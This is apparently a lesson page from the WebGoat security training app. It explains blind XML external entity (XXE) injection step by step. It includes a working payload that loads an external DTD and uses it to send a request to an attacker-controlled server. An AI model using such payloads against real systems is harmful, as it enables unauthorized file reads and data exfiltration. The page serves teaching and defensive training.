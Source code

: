 == Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference a external DTD which we control on our own server.

Our WebGoat server by default has an /xxe/ping endpoint which we can use. *This can be any server under your control.*

[source]
----
curl -i http://localhost:8080/WebGoat/XXE/ping

will result in:

GET curl/7.45.0
----

at the server side.

How do we use this endpoint to verify whether we can perform XXE?

In the `~/${user.home}/.webgoat/plugin/XXE` create a file called attack.dtd

[source]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=HelloWorld'>
----

Now submit the form and change the xml to:

[source]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/plugin_lessons/XXE/attack.dtd">
%remote;
]>
<user>
  <username>test&ping;</username>
</user>
----

Now if we check our server log we will see:

[source]
----
GET Java/1.8.0_101 HelloWorld
----

So with the XXE we are able to ping our own server which means XXE injection is possible.

[NOTE]
In this case we use http://localhost:8080/WebGoat/plugin_lessons/XXE/test.dtd to fetch the dtd but in reality this will
of course be a host fully under the attackers control.